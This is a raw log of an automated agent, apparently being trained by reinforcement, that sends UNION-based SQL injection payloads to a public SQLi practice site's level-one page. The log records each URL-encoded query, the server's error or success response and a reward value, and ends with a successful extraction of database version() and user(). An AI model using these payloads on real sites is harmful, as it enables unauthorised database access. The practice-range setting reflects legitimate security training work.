https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server res

  0%|          | 628/1000000 [3:32:14<9603:47:42, 34.60s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 629/1000000 [3:32:15<6797:46:48, 24.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 630/1000000 [3:32:16<4832:42:24, 17.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 631/1000000 [3:35:14<18240:14:59, 65.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 632/1000000 [3:35:15<12843:05:09, 46.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 633/1000000 [3:35:16<9065:15:50, 32.66s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/le

  0%|          | 634/1000000 [3:35:46<8895:08:03, 32.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 635/1000000 [3:35:47<6300:44:54, 22.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 636/1000000 [3:35:48<4490:13:25, 16.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 637/1000000 [3:35:49<3218:53:43, 11.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 638/1000000 [3:35:51<2399:51:25,  8.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https

  0%|          | 639/1000000 [3:36:58<7296:05:06, 26.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 640/1000000 [3:36:59<5186:44:26, 18.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 641/1000000 [3:37:00<3712:15:33, 13.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 642/1000000 [3:37:01<2672:06:28,  9.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 643/1000000 [3:37:02<1965:08:03,  7.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 644/1000000 [3:37:07<1757:30:26,  6.33s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 645/1000000 [3:37:09<1375:36:18,  4.96s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 646/1000000 [3:37:16<1574:06:47,  5.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 647/1000000 [3:37:17<1191:47:11,  4.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 648/1000000 [3:37:18<907:24:30,  3.27s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 649/1000000 [3:37:24<1129:45:31,  4.07s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 650/1000000 [3:37:25<864:34:17,  3.11s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 651/1000000 [3:37:26<681:08:27,  2.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1

  0%|          | 652/1000000 [3:39:50<12533:20:49, 45.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 653/1000000 [3:39:51<8851:27:59, 31.89s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 654/1000000 [3:39:52<6278:52:00, 22.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 655/1000000 [3:41:57<14749:03:23, 53.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 

  0%|          | 656/1000000 [3:42:18<12077:26:24, 43.51s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php

  0%|          | 657/1000000 [3:43:30<14464:11:46, 52.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 658/1000000 [3:43:31<10196:20:27, 36.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://z

  0%|          | 659/1000000 [3:43:37<7689:11:37, 27.70s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 660/1000000 [3:43:38<5462:47:57, 19.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 661/1000000 [3:43:39<3897:16:42, 14.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 662/1000000 [3:43:40<2802:14:57, 10.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Serv

  0%|          | 663/1000000 [3:44:31<6200:03:37, 22.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and

  0%|          | 664/1000000 [3:44:48<5718:08:26, 20.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,

  0%|          | 665/1000000 [3:46:39<13260:08:00, 47.77s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.o

  0%|          | 666/1000000 [3:47:08<11706:12:58, 42.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response i

  0%|          | 667/1000000 [3:47:44<11239:07:31, 40.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 668/1000000 [3:47:45<7939:24:20, 28.60s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 669/1000000 [3:47:46<5635:03:25, 20.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 670/1000000 [3:47:47<4026:51:37, 14.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server r

  0%|          | 671/1000000 [3:49:10<9720:42:48, 35.02s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 672/1000000 [3:49:11<6886:58:01, 24.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 673/1000000 [3:49:12<4893:40:15, 17.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Synt

  0%|          | 674/1000000 [3:51:28<14758:00:02, 53.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Se

  0%|          | 675/1000000 [3:51:46<11852:25:44, 42.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 676/1000000 [3:51:47<8376:02:26, 30.17s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Sy

  0%|          | 677/1000000 [3:52:36<9888:00:22, 35.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error

  0%|          | 678/1000000 [3:54:34<16815:10:04, 60.58s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 679/1000000 [3:54:35<11844:33:24, 42.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 680/1000000 [3:54:36<8365:55:31, 30.14s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 681/1000000 [3:54:37<5931:55:13, 21.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 682/1000000 [3:54:38<4234:07:02, 15.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
